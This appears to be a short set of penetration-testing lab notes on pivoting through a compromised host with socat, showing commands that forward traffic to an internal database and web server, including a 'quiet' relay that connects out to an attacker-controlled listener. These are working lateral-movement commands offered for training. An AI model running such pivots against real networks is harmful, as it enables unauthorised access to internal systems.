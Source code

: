 ## __***Easy way***__
Open up a listening port on the compromised box, redirect traffic that comes into compromised box to the target server.

**Compromised Server**: 172.16.0.5
**Target**: 172.16.0.10 port 3306

Run command on compromised box:
`./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &`

This opens port 33060 on compromised box and redirects input from attacking machine to target server.

`fork` - puts every connection into a new process\
`reuseaddr` - port stays open after a connection is made to it\
`&` - backgrounds the shell

Combined, this allows us to use same port forward for more than one connection

---

## *Quiet way*
Quiet method will not open a port on the compromised box which is risky.

From attacker box:
`socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &`
This opens port 8000 and 8001, creating a local port relay (what goes in one goes out the other)

On the compromised relay box:
`./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &`
This connects attacker listening port 8001 to open port of target server

Using the example IPs from earlier:
`./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &`

---

Remember to close background jobs by running `jobs` and killing the job number

